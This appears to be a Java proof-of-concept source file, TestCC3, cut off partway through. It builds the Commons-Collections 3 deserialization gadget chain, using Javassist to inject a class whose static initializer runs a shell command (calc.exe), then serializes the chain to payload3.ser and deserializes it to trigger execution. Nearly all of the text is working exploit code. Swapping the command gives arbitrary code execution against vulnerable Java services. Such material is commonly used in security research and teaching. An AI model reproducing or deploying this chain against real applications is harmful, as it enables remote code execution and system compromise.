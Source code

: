 ```java
import java.lang.annotation.Retention;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;


public class TestCC3 {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
//        cc.writeFile();
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        setFieldValue(templates, "_name", "1");
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };
        ChainedTransformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Target.class, lazyMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
        handler = (InvocationHandler) constructor.newInstance(Target.class, proxyMap);
        try{
            FileOutputStream fileOutputStream = new FileOutputStream("payload3.ser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(handler);

            FileInputStream fileInputStream = new FileInputStream("payload3.ser");
            ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
            objectInputStream.readObject();

        }catch (Exception e){
            e.printStackTrace();
        }

    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
```